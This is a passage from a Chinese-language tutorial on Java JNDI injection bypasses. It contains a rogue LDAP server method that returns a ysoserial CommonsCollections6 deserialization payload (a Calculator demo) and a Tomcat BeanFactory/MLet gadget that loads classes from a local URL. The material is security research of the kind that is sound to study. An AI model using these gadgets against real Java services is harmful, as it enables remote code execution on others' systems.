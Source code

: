 例如目标系统中存在 CommonsCollections 库，我们就可以使用ysoserial进行反序列化攻击

```java title="LDAP Server"

protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }

    try {
        // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
        e.addAttribute("javaSerializedData",Base64.decode(payload));
    } catch (ParseException e1) {
        e1.printStackTrace();
    }

    result.sendSearchEntry(e);
    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
```

这种绕过方式需要利用一个本地的反序列化利用链（如CommonsCollections），然后可以结合Fastjson等漏洞入口点和JdbcRowSetImpl进行组合利用。

## 其他绕过技巧

### 基于 BeanFactory

上文提到了利用`org.apache.naming.factory.BeanFactory`进行利用，EL和Groovy之所以能打是因为LDAP和RMI在收到服务端反序列化来的Reference对象后根据classFactory属性从本地classpath中实例化一个 ObjectFactory 对象，然后调用这个对象的 getObjectInstance 方法

只要满足之前提到三个条件的类均可以通过BeanFactory进行利用

#### javax.management.loading.MLet

MLet是JDK自带的类，继承自 URLClassloader，有一个无参构造方法，还有一个 addURL(String)方法，它的父类还有一个 loadClass(String)方法。

```java
MLet mLet = new MLet();
mLet.addURL("http://127.0.0.1:2333/");
mLet.loadClass("Exploit");
```

这样可以通过MLet实现远程加载类，但要想执行远程类的代码必须经过初始化或者实例化，单靠加载无法触发 static 代码块，所以无法 RCE。

MLet可以通过报错信息来检测本地环境是否存在某些类可以加载，如果类加载成功后面就能够访问远程类。反之如果第一次类加载失败就会抛出异常结束。

??? note "code"

    ```java
    private static ResourceRef tomcatMLet() {
        ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
        ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
        ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
        ref.add(new StringRefAddr("c", "Test"));
        return ref;
    }
    ```
